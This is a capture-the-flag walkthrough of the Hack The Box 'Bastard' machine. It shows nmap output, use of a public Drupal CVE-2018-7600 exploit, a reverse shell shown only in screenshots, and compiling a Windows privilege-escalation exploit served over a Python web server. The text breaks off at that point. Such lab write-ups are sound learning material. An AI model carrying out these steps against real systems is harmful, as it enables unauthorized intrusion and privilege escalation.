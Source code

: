 First enumeration with nmap 

```
# Nmap 7.93 scan initiated Tue May 16 23:11:48 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 80,135 -Pn 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.15s latency).

PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Welcome to Bastard | Bastard
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-generator: Drupal 7 (http://drupal.org)
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```
cool we know what ports and services are running.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b912d9b3-96ce-46d3-9808-70b68a07beb1)

noticed a web server running on port 80, opening it on a browser we can see it is running a drupal cms. let's check for exploit online.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0d122d82-2772-41f2-a561-586f003a7556)

found an RCE exloit on github... [exploit](https://github.com/pimps/CVE-2018-7600). cloned the repo, let's run the exploit:

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bfd170b7-f083-44c1-90a2-b3a943a31de8)

cool we got RCE, let's pop a reverse shell. fire up ncat listener

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ef23fd5e-fee9-4499-b6bc-f1a08bacad61)

running a powershell base64 reverse shell payload, check our ncat listener.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1ded4814-e7d4-4871-847f-11531a10e5c4)

Boom got a reverse shell.


## Privilege Escalation

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5ada2b3c-de37-4e6b-a7e7-5becbce65431)

checking systeminfo, we can see it is running OS version `6.1.7600 N/A Build 760` let's exploit this 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ba1b9405-0d7f-4ddb-9243-9bd01f576446)

found an exploit on searchsploit, downloaded the exploit. let's compile the exploit.

```
sudo apt-get install mingw-w64
```
first we need to install mingw-w64

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Bastard]
└─$ i686-w64-mingw32-gcc 40564.c -o privesc.exe -lws2_32
                                                                                                                                                                       
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Bastard]
└─$ ls -al privesc.exe 
-rwxr-xr-x 1 n16hth4wk n16hth4wk 240005 May 16 23:56 privesc.exe
```
then compile the script. let’s send it to the target.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/devel]
└─$ sudo python -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
first start a python http server


